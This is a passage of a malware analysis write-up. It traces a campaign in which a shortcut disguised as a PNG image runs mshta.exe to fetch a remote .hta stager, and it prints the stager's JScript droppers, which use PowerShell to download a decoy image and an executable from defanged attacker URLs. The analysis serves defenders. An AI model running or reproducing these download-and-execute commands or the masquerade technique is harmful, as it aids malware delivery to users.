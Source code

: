 Inspecting the shortcut file, we can see that it is calling the mshta.exe process. This process is designed to execute HTML applications (.hta) files. This particular technique is currently listed as a LOLBin (living off the land binaries) file as an attacker can execute either a local or remote .hta file with embedded malicious JavaScript code.
The complete command would run and execute the following:
mshta.exe hxxps://www.incometaxdelhi[.]org/gallery/thumnails/mix/
Which redirects to:
hxxps://www.incometaxdelhi[.]org/gallery/thumnails/mix/sit.hta
By looking at the URL, the .hta file was discovered being hosted on a likely compromised website, nested inside an obscure “gallery” directory designed to store some of the site’s images.
The purpose of the shortcut file is to appear simply as “Scanimg.png” to the user, thus luring them into thinking that they are opening a harmless image file. By default Windows operating systems will hide the .LNK extension on shortcut files. As we’ll see later on, an image will eventually be presented to the user.
Initial infection: stager attack chain
Next, let’s dive into the sit.hta file that was executed using the shortcut file by mshta.exe. As expected, sit.hta contains embedded JavaScript with some partially obfuscated JavaScript code along with some rather unusual variable names.
Figure 3: JavaScript contained in sit.hta
Stager operation: sit.hta
To hide from the user, the script first sets its size to (0,0) meaning zero pixels by zero pixels. It then checks that .NET Framework v4.0.30319 is installed.
At this point it checks for the presence of the decoy .png file (8292.png). If the file does not exist, it proceeds with its operations. If the file already exists, meaning the system was previously compromised, it simply opens the png file to the user and exits normally.
Circling back to the first IF statement, there are six operations the script proceeds to execute, each in their own JScript file.




Action
Contents
Execute




CreateTextFile: C:/ProgramData/kohl.js
var shell = new ActiveXObject(‘WScript.Shell’);var exec = shell.run(‘cmd.exe /c powershell.exe /c Invoke-WebRequest -OutFile C:\\\\ProgramData\\\\8292.png hxxps://www.incometaxdelhi[.]org/gallery/thumnails/mix/b.php’,0,true);
X


CreateTextFile: C:/ProgramData/kohlw.js
“var shell = new ActiveXObject(‘WScript.Shell’);WScript.Sleep(35000);var exec = shell.run(‘cmd.exe /c start C:\\\\ProgramData\\\\8292.png’,0,true);”



CreateTextFile: C:/ProgramData/kohld.js
“var shell = new ActiveXObject(‘WScript.Shell’);WScript.Sleep(100);var exec = shell.run(‘cmd.exe /c mkdir C:\\\\ProgramData\\\\dvixm’,0,true);”
X


CreateTextFile: C:/ProgramData/update.js
“var shell = new ActiveXObject(‘WScript.Shell’);WScript.Sleep(69000);var exec = shell.run(‘C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe /c Invoke-WebRequest -OutFile C:\\\\ProgramData\\\\mm1.exe hxxp://155.133.23[.]244/d.php’,0,true);”
X
